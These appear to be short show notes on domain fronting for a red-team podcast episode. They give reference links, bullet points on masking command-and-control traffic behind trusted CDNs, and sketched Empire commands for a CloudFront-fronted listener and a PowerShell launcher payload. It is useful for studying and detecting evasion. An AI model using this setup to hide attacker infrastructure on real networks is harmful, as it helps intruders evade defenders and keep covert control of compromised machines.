

Domain Fronting - Tradecraft Security Weekly - Episode 18

https://blog.cobaltstrike.com/2017/02/06/high-reputation-redirectors-and-domain-fronting/
https://signal.org/blog/doodles-stickers-censorship/
https://www.securityartwork.es/2017/01/24/camouflage-at-encryption-layer-domain-fronting/
https://trac.torproject.org/projects/tor/wiki/doc/meek
http://bryceboe.com/2012/03/12/bypassing-gogos-inflight-internet-authentication/
# What is Domain Fronting
- Technique to mask C2 traffic
- Mask DNS host name
- Mask C2 location
- Company's trust public CDN's
- CDN traffic is legitimate
- Domain Fronting is NOT new
# How Domain Fronting Works 
 
 
# Tool Demo
Creat new CDN asset in AWS Cloudfront
Default Cache behavior:
	forward everything
	accept all methods and headers
	
Create payload in Empire
```
(Empire)> listeners
add Default Profile Host:akjhfkahcloudfront.cdnnamewegotfromaws
add Host to point to the good cdn.
> launcher powershell Cloudfront
copy the payload
```
 
 